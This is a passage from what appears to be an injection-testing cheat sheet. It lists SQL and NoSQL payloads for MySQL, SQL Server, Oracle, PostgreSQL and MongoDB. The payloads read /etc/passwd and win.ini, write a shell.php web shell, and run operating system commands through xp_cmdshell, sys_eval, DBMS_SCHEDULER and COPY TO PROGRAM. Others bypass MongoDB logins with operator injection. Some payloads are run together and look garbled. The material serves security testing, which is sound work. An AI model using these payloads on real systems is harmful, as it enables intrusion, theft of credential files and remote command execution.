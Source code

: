 - Test for file system access:
    - MySQL:
        
        ```
        ' UNION SELECT null, LOAD_FILE('/etc/passwd') --' INTO OUTFILE '/var/www/html/shell.php' --
        ```
        
    - SQL Server:
        
        ```
        ' UNION SELECT null, BulkColumn FROM OPENROWSET(BULK 'C:\Windows\win.ini', SINGLE_CLOB) as x --
        ```
        

#### 5.3 Command Execution

- Test for operating system command execution:
    - MySQL:
        
        ```
        ' UNION SELECT null, sys_eval('id') -- (requires UDF)
        ```
        
    - SQL Server:
        
        ```
        ' EXEC xp_cmdshell 'whoami' --
        ```
        
    - Oracle:
        
        ```
        ' EXEC DBMS_SCHEDULER.CREATE_JOB(job_name => 'exec_job', job_type => 'EXECUTABLE', job_action => '/bin/bash', number_of_arguments => 3, start_date => SYSTIMESTAMP, enabled => TRUE, auto_drop => TRUE); --
        ```
        
    - PostgreSQL:
        
        ```
        ' SELECT pg_ls_dir('.'); --' COPY (SELECT '') TO PROGRAM 'whoami'; --
        ```
        

### 6. Testing for NoSQL Injection

#### 6.1 MongoDB Injection

- Test for MongoDB operators in JSON payloads:
    
    ```json
    {"username": {"$ne": null}, "password": {"$ne": null}}{"username": "admin", "password": {"$regex": "^a"}}{"$where": "this.username == 'admin' || sleep(5000)"}
    ```
    

#### 6.2 NoSQL Operator Injection

- Common NoSQL operators to test:
    